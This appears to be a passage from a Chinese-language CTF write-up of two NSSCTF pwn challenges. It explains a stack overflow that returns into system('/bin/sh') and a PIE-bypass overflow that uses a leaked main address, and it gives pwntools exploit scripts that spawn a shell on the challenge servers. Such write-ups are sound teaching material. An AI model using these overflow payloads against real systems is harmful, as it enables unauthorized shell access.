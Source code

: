 这道题有点libc的感觉

先溢出，然后到system的连接地址，然后补充4个单位的垃圾数据，最后是/bin/sh的命令字符串

**当程序调用system函数时，会自动去寻找栈底即ebp指向的位置，然后将ebp+8字节的位置的数据当作函数的参数，所以如果我们想将/bin/sh作为system函数的参数，就可以在栈溢出的时候，先修改eip为system函数的地址，然后填充4个字节的垃圾数据，再将/bin/sh的地址写入栈上，这样调用system函数的时候，就可以将/bin/sh作为参数，然后返回一个shell。**(这是为什么要在systemaddr后面补4个字节的原因

具体可查：[PWN疑难（1-3）-关于payload中栈的布置以及system的一些困惑 (yuque.com)](https://www.yuque.com/cyberangel/rg9gdm/igq0ed)

```
from pwn import *

io = remote('node5.anna.nssctf.cn',28088)

system_addr=0x08048390
binsh_addr=0x0804A024

payload=b'a'*(0x48+4)+p32(system_addr)+b'a'*4+p32(binsh_addr)

io.send(payload)
io.interactive()
```

### \[NISACTF 2022\]ezpie

先checksec，32位，开启了pie保护，这就造成了地址的随机化，但是地址的相对位移的不变的

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701763854-image.png)

使用readelf工具查看地址

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701763956-image.png)

可以看到main函数和shell函数的地址

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701763997-image.png)

那么可以这样写脚本👇

```
from pwn import *

io = remote('node5.anna.nssctf.cn',28902)

main_addr=0x00000770
shell_addr=0x0000080f
offset=shell_addr-main_addr #计算偏移量

main_real_addr=int(io.recvuntil('70')[-10:].decode(),16)#根据IDA源码可知
shell_real_addr=main_real_addr+offset  #拼接出真实的shell地址
payload=b'a'*(0x28+4)+p32(shell_real_addr) #溢出即可
io.send(payload)
io.interactive()
```
